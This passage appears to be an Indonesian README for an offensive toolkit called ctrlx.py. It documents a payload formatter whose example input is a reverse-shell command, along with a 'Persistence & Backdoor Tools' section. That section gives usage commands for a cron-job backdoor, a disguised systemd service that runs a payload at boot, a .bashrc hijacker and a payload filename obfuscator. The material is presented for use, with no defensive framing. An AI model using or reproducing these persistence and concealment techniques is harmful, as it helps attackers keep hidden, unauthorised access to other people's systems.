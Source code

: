 ### mux.py – Payload Formatter

Memformat payload menjadi output siap embed (`py`, `c`, `ps1`, atau `raw`).

**Contoh Penggunaan:**

```bash
python3 ctrlx.py axt --type mux --input "bash -i ..." --format c --save
```

---

## rda/ — Persistence & Backdoor Tools

### c9n.py – Cronjob Backdoor

Membuat entry cron job untuk menjalankan file payload secara periodik.

**Contoh Penggunaan:**

```bash
python3 ctrlx.py rda --type c9n --command "/home/user/payload.sh" --interval 5 --save
```

---

### sy7d.py – Systemd Service Creator

Membuat file `.service` untuk systemd agar payload dijalankan saat boot.

**Contoh Penggunaan:**

```bash
python3 ctrlx.py rda --type sy7d --exec /home/user/payload --name updater --save
```

---

### bsh3.py – Bashrc Hijacker

Menyisipkan payload ke `.bashrc` agar dijalankan saat user login shell.

**Contoh Penggunaan:**

```bash
python3 ctrlx.py rda --type bsh3 --command "/home/user/payload.sh" --save
```

---

### vlt.py – File Name Obfuscator

Mengacak dan menyembunyikan nama file payload.

**Contoh Penggunaan:**

```bash
python3 ctrlx.py rda --type vlt --input payload.sh --save
```

---